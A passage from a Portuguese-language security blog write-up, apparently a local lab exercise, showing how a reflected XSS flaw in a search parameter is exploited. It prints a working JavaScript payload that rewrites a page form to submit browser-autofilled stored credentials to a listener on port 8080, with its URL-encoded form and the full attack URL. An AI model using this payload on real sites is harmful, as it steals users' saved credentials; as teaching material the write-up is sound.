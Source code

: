#### Exploração

Com o uso da função global `setTimeout()`, podemos executar uma função que irá adulterar o formulário e auto submetê-lo para nossa máquina.

```html
<script>
	window.setTimeout(function() {
		document.forms[0].action = "http://0.0.0.0:8080";
		document.forms[0].method = "GET";
		document.forms[0].submit();
	} ,3000);
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%09window.setTimeout%28function%28%29%20%7B%0A%09%09document.forms%5B0%5D.action%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%22%3B%0A%09%09document.forms%5B0%5D.method%20%3D%20%22GET%22%3B%0A%09%09document.forms%5B0%5D.submit%28%29%3B%0A%09%7D%20%2C3000%29%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/12/?search=%3Cscript%3E%0A%09window.setTimeout%28function%28%29%20%7B%0A%09%09document.forms%5B0%5D.action%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%22%3B%0A%09%09document.forms%5B0%5D.method%20%3D%20%22GET%22%3B%0A%09%09document.forms%5B0%5D.submit%28%29%3B%0A%09%7D%20%2C3000%29%3B%0A%3C%2Fscript%3E](http://localhost/12/?search=%3Cscript%3E%0A%09window.setTimeout%28function%28%29%20%7B%0A%09%09document.forms%5B0%5D.action%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%22%3B%0A%09%09document.forms%5B0%5D.method%20%3D%20%22GET%22%3B%0A%09%09document.forms%5B0%5D.submit%28%29%3B%0A%09%7D%20%2C3000%29%3B%0A%3C%2Fscript%3E)

Podemos iniciar um *Python server* na porta 8080  configurado para ouvir a requisição feita.

![Python server](/img/posts/2023-06-21-beyond-the-alert-32.png)

Ao carregar a página, as credenciais armazenadas são carregadas nos campos do formulário.
